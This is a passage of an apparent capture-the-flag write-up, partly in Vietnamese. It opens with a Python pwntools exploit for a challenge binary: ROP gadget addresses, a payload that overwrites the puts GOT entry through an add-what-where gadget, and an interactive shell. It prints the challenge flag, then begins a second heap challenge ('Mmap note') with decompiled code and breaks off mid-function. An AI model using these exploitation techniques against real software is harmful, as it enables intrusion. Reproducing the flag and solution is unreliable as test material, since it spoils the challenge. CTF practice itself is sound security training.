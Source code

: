 ```py
	return io


elf = ELF('./chall_patched')
libc = ELF('libc.so.6')


pop_rdi = 0x0000000000401313
pop_rsi_r15 = 0x0000000000401311
leave_ret = 0x000000000040122c
pop_rbp = 0x000000000040119d
ret = 0x000000000040101a
main = 0x000000000040122e
main_no_push = main+1
input_floats = 0x00000000004011b6
put_gots = 0x404018
csu = 0x40130a
add_what_where = 0x000000000040119c # add dword ptr [rbp - 0x3d], ebx ; nop ; ret


def hex_to_float(hex_str):
    binary_str = bytes.fromhex(hex_str)
    unpacked = struct.unpack('!f', binary_str)
    return unpacked[0]

try:
	io = riconn()
	payload = 0x61*b'A' + 8*b'A' + p64(csu) + p64(0x5f6de) + p64(put_gots+0x3d) + p64(0)*4 + p64(add_what_where) + p64(elf.sym['puts'])
	value = '3.544850151698461e-38'
	io.sendafter(b'ale.\n',payload)
	io.sendlineafter(b'number!\n', b'1')
	io.sendlineafter(b'number!\n', value.encode())
	io.sendlineafter(b'number!\n', b'+')	
	io.interactive()

except:
    io.close()
```

# flag: SEE{Im_f33ling_1ucky_e27e006fe918ab56}


* 2. Mmap note:

    `Description: I made a basic note program but with sandbox. And no more chunk for house of xxx. Can you still get the flag?`

>> Ở bài này, chúng ta có thể allocate 1 số chunks với size 0x1000. Nếu phân bổ hết lượng bộ nhớ trên Heap và khiến cho chunks mới phải dùng mmaped(). Điều đó khiến ta có 1 số chunk nằm trên Thread Local Storage (TLS) được đặt với 1 offset không đổi so với libc trong vùng nhớ.
```
__int64 write_0()
{
  unsigned int v1; // [rsp+4h] [rbp-Ch] BYREF
  unsigned __int64 v2; // [rsp+8h] [rbp-8h]

  v2 = __readfsqword(0x28u);
  v1 = 0;
  printf("idx = ");
  __isoc99_scanf("%d", &v1);
  if ( v1 < dword_404590 )
  {
    printf("size to write = ");
```